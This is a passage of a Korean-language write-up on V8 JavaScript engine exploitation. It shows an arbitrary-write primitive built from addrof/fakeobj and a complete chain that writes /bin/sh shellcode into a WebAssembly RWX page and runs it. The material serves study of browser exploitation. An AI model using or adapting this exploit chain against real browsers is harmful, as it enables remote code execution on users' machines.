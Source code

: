 ![Untitled (1)](https://user-images.githubusercontent.com/43925259/90337391-294ff200-e01d-11ea-8287-88e97a583b30.png)

- addr - 0x10을 한 값을 넣는 이유 elements가 가리키는 주소는 map이고 해당 주소에서 0x10을 더해야 값이 나오기 때문이다.
- 즉 addr - 0x10 + 0x10에 접근하게 되고 addr의 주소가 가진 값을 얻을 수 있다.

---

## aaw

```jsx
function aaw_init(addr, val) {
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    fake[0] = itof(BigInt(val));
}

var buf = new ArrayBuffer(0x100); // 값을 쓸 크기
var dataview = new DataView(buf);
aaw_init((addrof(buf))+0x20n, target_addr);
// dataview를 이용해서 target_addr 영역에 값 쓰기
```

- aaw_init 함수는 aar 함수의 구성과 큰 차이가 없다.
- ArrayBuffer로 생성한 buf의 주소로부터 0x20 위치에 target_addr 주소를 쓰게 되면 그 이후엔 dataview를 통해서 해당 영역에 접근할 수 있다.

---

## 첫 번째 익스플로잇 방법

- 첫 번째 방법은 wasm을 이용해 rwx를 만드는 방법이다.
- 구글에서도 인지하고 있는 취약점이기 때문에 언젠가 패치될 거 같다.

```jsx
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var wasm_i_addr = addrof(wasm_instance);
var rwx = aar((wasm_i_addr)+0x88n);

var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
var shellcode_buf = new ArrayBuffer(0x100);
var dataview = new DataView(shellcode_buf);
aaw_init(addrof(shellcode_buf)+0x20n, rwx);

for (var i=0; i<shellcode.length; i++) {
	  dataview.setUint32(4*i, shellcode[i], true);
}
f();
```

